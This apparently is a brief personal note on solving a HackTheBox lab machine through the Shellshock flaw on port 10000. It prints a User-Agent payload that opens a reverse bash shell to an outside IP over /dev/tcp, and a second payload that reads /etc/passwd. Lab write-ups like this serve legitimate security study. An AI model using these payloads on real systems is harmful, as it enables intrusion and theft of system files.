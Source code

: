 shellshock was new to me


as per writeup port 10000 was vuln to shellshock


Note: if we find any application/ web server wwith resources with extension .csi-bin we can try for shellshock vulns


Shellshock in a nutshell:


If we replace the user-agent value of a request to this:

() { :;}; bash -i >& /dev/tcp/10.10.16.6/4444 0>&1


or this

() { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" \


we can see the results 




initially i was failing

found this resource

https://medium.com/@siddharth.singhal1995/hackthebox-walkthrough-beep-5-60e29ad0668a


followed the same thing but this time it worked so anyway


got a reverse root shell on port 443


and closed this machine






